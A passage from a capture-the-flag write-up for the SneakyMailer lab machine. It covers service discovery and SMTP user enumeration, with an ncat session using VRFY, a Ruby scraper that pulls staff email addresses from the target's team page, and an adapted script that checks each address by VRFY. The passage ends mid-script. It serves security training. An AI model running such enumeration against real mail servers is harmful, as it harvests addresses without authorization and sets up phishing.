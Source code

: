 We don't know if it's working or if it's a rabbit hole and there is no login
page anyway.

## Service discovery

The FTP is not accessible anonymously and we don't have credentials yet.

There are a SMTP and IMAP server. This also another web server on port 8080
but found nothing while enumerating.

## SMTP & IMAP exploitation

Let's connect to the SMTP server and try to verify some email addresses:

```
$ ncat sneakycorp.htb 25
220 debian ESMTP Postfix (Debian/GNU)
vrfy noraj@sneakymailer.htb
550 5.1.1 <noraj@sneakymailer.htb>: Recipient address rejected: User unknown in virtual mailbox table
vrfy airisatou@sneakymailer.htb
252 2.0.0 airisatou@sneakymailer.htb
```

So it means our account was not created after filling the registration form
but emails listed on the team page seem valid.

I wrote a short ruby script to scrap & parse the website to extract the email
addresses:

```ruby
#! /usr/bin/env ruby

require 'nokogiri'
require 'open-uri'

doc = Nokogiri::HTML(URI.open('http://sneakycorp.htb/team.php'))
cells = doc.search('table#dataTable tbody tr td')

cells.each do |c|
    puts c.text if /@sneakymailer.htb/.match?(c)
end
```

```
$ ruby grab_email.rb > emails.txt
```

If we want to verify all email addresses, we can re-use a
[Rubyfu - SMTP Enumeration](https://rubyfu.net/module-0x3-or-network-kung-fu/email/smtp-enumeration)
script and modify it a bit.

```ruby
#!/usr/bin/env ruby

require 'socket'

users = File.read('emails.txt').split("\n")
found = []

@s = TCPSocket.new('sneakycorp.htb', 25)
@banner = @s.recv(1024).chomp
users.each do |user|
  @s.send "VRFY #{user} \n\r", 0
  resp = @s.recv(1024).chomp
  found << user if resp.split[2] == user
end
```